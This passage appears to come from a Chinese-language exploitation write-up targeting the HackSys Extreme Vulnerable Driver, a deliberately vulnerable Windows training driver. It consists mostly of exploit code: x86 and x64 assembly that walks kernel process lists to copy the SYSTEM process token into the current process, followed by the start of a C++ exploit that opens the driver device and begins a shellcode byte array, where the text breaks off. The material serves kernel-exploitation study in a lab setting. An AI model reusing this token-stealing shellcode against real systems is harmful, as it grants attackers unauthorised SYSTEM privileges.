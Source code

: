 ```assembly
jne SearchSystemPID

mov edx, [eax + 0F8h]               ; Get SYSTEM process nt!_EPROCESS.Token
mov[ecx + 0F8h], edx                ; Replace target process nt!_EPROCESS.Token
                                    ; with SYSTEM process nt!_EPROCESS.Token
```

### exp.cpp

最终`exp`如下，这里的`shellcode`我是通过`nasm`进行编译的，然后再通过`hexdump -e '16/1 "%02x" " | "' -e '16/1 "%_p" "\n"' ./1.o` 变成可见字符的`16`进制，再转换的（没找到啥比较优雅的方式

```cpp
#include <stdio.h>
#include <windows.h>

int main()
{
    // open device 
    HANDLE dev = CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver", GENERIC_READ | GENERIC_WRITE, NULL, NULL, OPEN_EXISTING, NULL, NULL);

    if (dev == INVALID_HANDLE_VALUE)
    {
        printf("open failed\n");
        system("pause");

        return -1;
    }

    printf("Device Handle: 0x%p\n", dev);

    /* nasm -f elf64 ./1.s 
    xor rax, rax                    ; Set ZERO
    mov rax, gs:[rax + 188h]        ; Get nt!_KPCR.PcrbData.CurrentThread
                                    ; _KTHREAD is located at GS : [0x188]

    mov rax, [rax + 70h]            ; Get nt!_KTHREAD.ApcState.Process
    mov rcx, rax                    ; Copy current process _EPROCESS structure
    mov r11, rcx                    ; Store Token.RefCnt
    and r11, 7

    mov rdx, 4h                     ; WIN 7 SP1 SYSTEM process PID = 0x4

    SearchSystemPID:
        mov rax, [rax + 188h]           ; Get nt!_EPROCESS.ActiveProcessLinks.Flink
        sub rax, 188h
        cmp [rax + 180h], rdx            ; Get nt!_EPROCESS.UniqueProcessId
        jne SearchSystemPID

    mov rdx, [rax + 208h]           ; Get SYSTEM process nt!_EPROCESS.Token
    and rdx, 0fffffffffffffff0h
    or rdx, r11
    mov [rcx + 208h], rdx
    */ 
    

    CHAR shellcode[] =
    {	
        // push rax; push rbx; push rcx; push rdx; push rdi; push rsi; push r8; push r9; push r10; push r11; push r12; push r13; push r14; push r15
        "\x50\x53\x51\x52\x57\x56\x41\x50\x41\x51\x41\x52\x41\x53\x41\x54\x41\x55\x41\x56\x41\x57"
        
        // change token
```